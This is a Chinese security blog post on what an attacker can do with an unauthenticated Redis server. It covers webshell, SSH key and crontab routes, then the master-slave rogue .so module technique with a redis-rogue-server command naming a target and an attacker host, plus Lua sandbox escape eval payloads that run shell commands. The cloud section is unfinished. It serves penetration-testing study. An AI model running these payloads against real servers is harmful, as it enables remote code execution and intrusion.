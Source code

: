 ```yaml
---
title: 关于Redis未授权利用的一些思考
date: 2023-06-13 13:29:08
tags:
    - 漏洞跟踪
    - 开发工具
categories: Bugs
thumbnail: https://blog.dvkunion.cn/img/1484628369607.png

---
```


# Redis未授权利用的一些思考

<!-- split -->
> 一台未授权的redis，究竟能做些什么？
<!-- more -->

## 0x00 前言

问题如上。
其实真正遇到这个问题的时候我的第一反应也是没有当作一回事，毕竟redis未授权已经算得是和Top 10级别的漏洞一样耳熟能详的一个实战漏洞了，答案也是八股文张口就来：
1. 向web目录写入webshell
2. 通过写入authotrized_keys获取ssh登录权限
3. 通过crontab写入定时任务反弹shell

这几个选项是最常用的，也是最通用化的redis利用方式。基本上在目前的搜索引擎上能够获取到大量的文章，一般的面试以及普通的ctf靶场也通常会针对这几个考点来展开。但是实际上：

1. web路径未知，需要猜解或通过其他手段获取，或实际上在微服务分离的架构下redis服务器上不可能存在web服务，更有可能仅是一个redis容器。
2. redis主机没有暴露ssh端口，或根本不存在sshd服务，导致即使写入authotrized_keys，也无法实际利用。
3. 运行redis服务的账户权限极低，无法向/root/.ssh写入文件。
4. redis主机没有crontab服务

针对如上的限制，我们重新修改问题：

> 一台未授权且仅包含redis服务(容器化)，暴露的端口只有6379的redis容器，除了上述的几个方面，还能做些什么？

## 0x03 主从复制 远程.so加载

如果你足够细心和关注社区动态，那么在先知等平台

2019年7月7日，LC/BC的成员Pavel Toporkov在WCTF2019 Final分享会上介绍了Redis新版本的远程命令执行漏洞的利用方式。由于在Reids 4.x及以上版本中新增了模块功能，攻击者可通过外部拓展，在Redis中实现一个新的Redis命令。攻击者可以利用该功能引入模块，在未授权访问的情况下使被攻击服务器加载恶意.so 文件，从而实现远程代码执行。

但随着现代的服务部署方式的不断发展，组件化成了不可逃避的大趋势，docker就是这股风潮下的产物之一，而在这种部署模式下，一个单一的容器中不会有除redis以外的任何服务存在，包括ssh和crontab，再加上权限的严格控制，只靠写文件就很难再getsell了，在这种情况下，我们就需要其他的利用手段了。

此漏洞存在于4.x、5.x版本中，Redis提供了主从模式，主从模式指使用一个redis作为主机，其他的作为备份机，主机从机数据都是一样的，从机只负责读，主机只负责写。在Redis 4.x之后，通过外部拓展，可以实现在redis中实现一个新的Redis命令，构造恶意.so文件。在两个Redis实例设置主从模式的时候，Redis的主机实例可以通过FULLRESYNC同步文件到从机上。然后在从机上加载恶意so文件，即可执行命令。

简单的说，攻击者（主机)写一个so文件，然后通过FULLRESYNC(全局)同步文件到受害人〈从机)上。

[exp](https://github.com/n0b0dyCN/RedisModules-ExecuteCommand)

[代码仓库](https://github.com/LoRexxar/redis-rogue-server.git)

```python3
python3 redis-rogue-server.py --rhost 118.193.36.37 --rport 57048 --lhost 98.126.111.111 --lport 23333
```

## 0x04 Redis沙盒逃逸
Redis是著名的开源Key-Value数据库，其具备在沙箱中执行Lua脚本的能力。
Debian以及Ubuntu发行版的源在打包Redis时，不慎在Lua沙箱中遗留了一个对象package，攻击者可以利用这个对象提供的方法加载动态链接库liblua里的函数，进而逃逸沙箱执行任意命令。
我们借助Lua沙箱中遗留的变量package的loadlib函数来加载动态链接库/usr/lib/x86_64-linux-gnu/liblua5.1.so.0里的导出函数luaopen_io。在Lua中执行这个导出函数，即可获得io库，再使用其执行命令

eval 'local io_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_io"); local io = io_l(); local f = io.popen("id", "r"); local res = f:read("*a"); f:close(); return res' 0

eval 'local io_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_io"); local io = io_l(); local f = io.popen("ls /tmp", "r"); local res = f:read("*a"); f:close(); return res' 0

## 0x05 考虑云场景下的环境
对于这种微服务架构、

## 结尾
[exploit](https://2018.zeronights.ru/wp-content/uploads/materials/15-redis-post-exploitation.pdf)
[vulhub](https://github.com/vulhub/vulhub/tree/master/redis)
[先知-redis利用](https://xz.aliyun.com/t/2295)
[404-主从复制](https://paper.seebug.org/975/)
[利用总结](https://sec-in.com/article/1309)
[github-exp](https://github.com/00theway/redis_exp)
[检测工具](https://github.com/Ridter/hackredis)
[其他](https://github.com/Testzero-wz/Awsome-Redis-Rogue-Server)